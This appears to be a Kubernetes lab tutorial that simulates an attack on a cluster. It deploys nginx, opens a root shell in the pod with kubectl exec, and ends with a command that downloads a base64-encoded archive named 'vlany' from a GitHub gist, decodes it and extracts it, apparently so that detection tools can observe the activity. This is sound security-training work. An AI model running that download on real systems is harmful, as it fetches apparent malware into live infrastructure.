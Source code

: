 
Let's simulate an attack on our cluster by logging into it and running some nefarious commands.  In this example we will use `kubectl exec` to install some system updates, install a package, then download a `tar` file, explode it. This routine may be typical of a malware or user instigated attack.

First let's create a deployment.

```
$ kubectl create ns nginx
namespace/nginx created

$ kubectl apply -f manifests/nginx-deployment-foo.yaml -n nginx
deployment.apps/nginx-deployment created

$ kubectl get pods -n nginx
NAME                               READY   STATUS              RESTARTS   AGE
nginx-deployment-5d57c58f5-4zdj4   0/1     ContainerCreating   0          13s
```

Verify the Pod has STATUS 'Running' and READY '1/1' before continuing.

```
$ kubectl get pods -n nginx
NAME                               READY   STATUS    RESTARTS   AGE
nginx-deployment-5d57c58f5-4zdj4   1/1     Running   0          80s
```

Make a note the Pod name, as you will require that shortly.

Now that the deployment is running, let's simulate the attack.  

Run the following command to create a shell into the running Container, substituting the pod name as appropriate

```
$ kubectl exec -it nginx-deployment-5d57c58f5-4zdj4 -n nginx -- /bin/bash
root@node01:/#
```

Create a directory in the container

```
$ mkdir mymalware
$
```

You can execute a few commands inside the container, or even download some malicious file.  
`apt-get update &&
apt-get install curl -y &&
cd /tmp &&
curl https://gist.githubusercontent.com/mateobur/d888e36de12f8fe42a18f54ce4b1fc7c/raw/dd0c4cb23db7cc17a2086c5dee9338522fb8ae69/vlany | base64 -d > vlany-master.tar.gz &&
tar zxvf vlany-master.tar.gz`{{execute}}
